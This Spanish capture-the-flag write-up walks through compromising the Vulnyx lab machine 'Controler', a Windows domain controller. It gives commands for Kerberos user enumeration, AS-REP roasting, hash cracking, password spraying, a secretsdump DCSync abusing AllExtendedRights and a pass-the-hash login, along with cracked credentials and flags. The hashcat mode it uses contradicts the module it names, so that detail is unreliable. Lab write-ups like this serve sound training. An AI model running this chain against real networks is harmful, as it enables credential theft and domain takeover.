



___
Tags: #kerbrute #hashcat #crackmapexec #bloodhound #evil-winrm #secretsdump
___
# Controler

## Información General

**- Dificultad:** Medium <br>
**- Sistema operativo:** Windows <br>
**- Vulnerabilidad explotada.**  Missconfiguration <br>
**- Fecha de resolución:** 06/05/2026 <br>
**- Enlace:** [Controler](https://vulnyx.com/machines/) <br>

## Reconocimiento

**Plataforma** nos proporciona la ip de la máquina objetivo **ip_objetivo**

**ARP-SCAN**

```
sudo arp-scan -I eth0 --localnet --ignoredups
```

<p align="center"> 

</p>

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 192.168.0.109
```

**Su ttl es 128. Por tanto, es Window**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 192.168.0.109
```

```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-05-06 22:25:29Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: control.nyx, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: control.nyx, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
MAC Address: 08:00:27:2D:9A:A3 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Microsoft Windows 2019
OS CPE: cpe:/o:microsoft:windows_server_2019
OS details: Microsoft Windows Server 2019
Network Distance: 1 hop
Service Info: Host: CONTROLER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

El dominio es **control.nyx** de la ip **192.168.0.109** lo apuntamos en el fichero **/etc/hosts**

Para explotar esta máquina va ser muy diferente como otras que hemos hecho, ya que, se centra sobre todo la obtención de usuario y contraseña mediante fuerza bruta. 

Nos descargamos la herramienta **kerbrute** por si no la tenemos en el [link](https://github.com/ropnop/kerbrute) y ejecutamos el siguiente comando:

Le damos permiso de ejecución al archivo despues tenemos que usar un diccionario especifico llamado [A-Z.Surnames.txt](https://github.com/attackdebris/kerberos_enum_userlists) un diccionario específico para AD lo descargamos con la herramienta **wget**

```
wget https://raw.githubusercontent.com/attackdebris/kerberos_enum_userlists/refs/heads/master/A-Z.Surnames.txt
```

Luego, usamos la herramienta

```
./kerbrute_linux_amd64 userenum -d control.nyx --dc 192.168.0.109 A-Z.Surnames.txt
```

<p align="center"> 

</p>

Luego para conseguir la contraseña tenemos tres caminos de ataque: 

- AS-Rep Roasting
- Password Spraying
- Fuerza bruta con el usuario obtenido

La que me funciono fue **AS-Rep Roasting** 

El usuario recien obtenido lo guaradaremos en un .txt  y el comando quedaría así:

```
impacket-GetNPUsers 'control.nyx/' -no-pass -usersfile user.txt -dc-ip 192.168.0.109
```

<p align="center"> 

</p>

Para saber la contraseña del usuario usaremos hashcat en concreto el modulo 18200 y guardaremos el hash del usuario en un .txt

```
sudo hashcat -m 5600 hash_blewis /usr/share/wordlists/rockyou.txt
```

La contraseña es **101Music**. Por tanto, las credenciales quedarían --> **B.LEWIS**:**101Music**

```
crackmapexec smb 192.168.0.109 -u 'B.LEWIS' -p '101Music'   
```

<p align="center"> 

</p>

```
crackmapexec smb 192.168.0.109 -u 'B.LEWIS' -p '101Music' --users
```

Con el parámetro **--users** me hará un listado de usuarios del dominio 

<p align="center"> 

</p>

En concreto, el usuario **j.levy** está habilitado, podríamos descubrirlo por fuerza bruta

```
crackmapexec smb 192.168.0.109 -u 'j.levy' -p /usr/share/wordlists/rockyou.txt --no-bruteforce --continue-on-success
```

Tardará bastante en dar la contraseña pero es **Password1**

```
crackmapexec smb 192.168.0.109 -u 'j.levy' -p 'Password1'   
```

<p align="center"> 

</p>

Investigando con la herramienta **ldapdomaindump** descubro que el usuario j.levy esta en el grupo de evil-winrm, por eso este usuario si puedes logearse y el otro no.

```
evil-winrm -i 192.168.0.109 -u 'j.levy' -p 'Password1'
```

<p align="center"> 

</p>

flag usuario: **587c4dac7a29c5c2a2d98732116e5bee**

## Post explotación

### Bloodhound

Con el comando siguiente obtenemos un .zip que contiene información de todo **Active Directory** vale cualquiera de los dos usuarios que hemos obtenido 

```
bloodhound-python -d 'control.nyx' -u 'b.lewis' -p '101Music' -gc 'CONTROLER.control.nyx' -dc 'CONTROLER.control.nyx' -ns 192.168.0.109 -c all --zip
```

<p align="center"> 

</p>

Este zip lo usaremos en la siguiente herramienta llamada **bloodhound** para instalarlo usaremos el siguiente comando, debemos de tener instalado previamente docker

```
sudo apt install docker.io
docker-compose
curl -L https://ghst.ly/getbhce | sudo docker-compose -f - up
```

Nos saldrá la contraseña de bloodhound, recuerda que el usuario siempre sera **admin**

<p align="center"> 

</p>

Para acceder al paner de bloodhound, nos iremos a nuestro navegador y pondremos lo siguiente:

```
http://localhost:8080
```

Ingresamos las credenciales, aveces te pedirá resetear la contraseña, en mi caso no lo me lo ha pedido.

<p align="center"> 

</p>

El .zip que hemos obtenido anteriormente lo subiremos donde pone **quick upload**, nos esperamos unos segundos y para saber si se ha cargado correctamente, lo que haremos es irnos a **explore - search** y porbamos buscar unos de los usuarios que tenemos credenciales, por ejemplo **j.levy**

<p align="center"> 

</p>

Si clicamos en el usuario nos saldrá un panel y nos iremos a **Outbound Object Control** y nos aparecerá lo siguiente:

<p align="center"> 

</p>

Que un usuario de bajos privilegios tenga el permiso **AllExtendedRights** sobre el dominio **Control.NYX** es como si fuera administrador sin serlo. Para explotarlo clicamos encima del permiso, y le damos a **Linux Abuse**

El permiso **AllExtendedRights** de un usuario sobre el objeto del **Dominio** es, esencialmente, una llave maestra para convertirte en Administrador del Dominio

<p align="center"> 

</p>

comprobamos que con el siguiente comando podemos explotar el dominio

```
impacket-secretsdump 'DOMAIN'/'USER':'PASSWORD'@'DOMAINCONTROLLER' 
```

Adaptando el comando con los datos que hemos recopilado

```
impacket-secretsdump control.nyx/j.levy:Password1@CONTROLER.control.nyx
```

<p align="center"> 

</p>

Credenciales --> **Administrator**:**48b20d4f3ea31b7234c92b71c90fbff7**

```
evil-winrm -i 192.168.0.109 -u 'Administrator' -H '48b20d4f3ea31b7234c92b71c90fbff7'
```

<p align="center"> 

</p>

flag de root: **b43e4c1b7df273b73966bc038774bafd**

## Conclusión

Esta maquina controler de la plataforma de **Vulnyx** es increible, con lo que aprendes es una locura. totalmente recomendada.